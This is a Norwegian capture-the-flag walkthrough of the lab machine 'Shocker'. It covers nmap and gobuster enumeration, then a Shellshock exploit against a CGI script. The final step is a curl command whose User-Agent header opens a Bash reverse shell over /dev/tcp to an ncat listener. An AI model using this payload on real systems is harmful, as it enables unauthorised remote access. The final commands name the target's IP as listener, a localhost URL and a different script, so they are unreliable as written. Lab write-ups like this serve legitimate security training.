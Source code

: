 # Shocker
### nmap

```
nmap -sV -sC 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-14 20:19 CET
Nmap scan report for 10.10.10.56
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

### Hva vi gjør:
Det første vi gjør er å gå inn på nettsiden, der ser vi ikke mye annet dette:
<img src="website.png">
<p>Deretter kjører vi gobuster for å finne directories i nettsiden. Vi finner cgi-bin, server-status og /icons/READme.</p>
Jeg vil gjerne se mer av cgi-bin, så jeg kjører gobuster videre fra /cgi-bin/

```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl
```
Vi finner kjapt: <b>user.sh</b>.
<p>Med litt kjapp google søk finner vi denne <a href="https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock">artikklen</a></p>
Vi kjører en test:

```
curl -H "User-agent: myuseragent" http://10.10.10.56/cgi-bin/user.sh

vulnerable

Content-Type: text/plain
Just an uptime test script
```
Dette betyr vi kan injecte commands til maskinen og vi gjør da et reverse shell!

```
ncat -lvnp 1234

curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.56/1234 0>&1" http://localhost/cgi-bin/hello.sh
```

Og vi har shell!
<img src="shell.png">
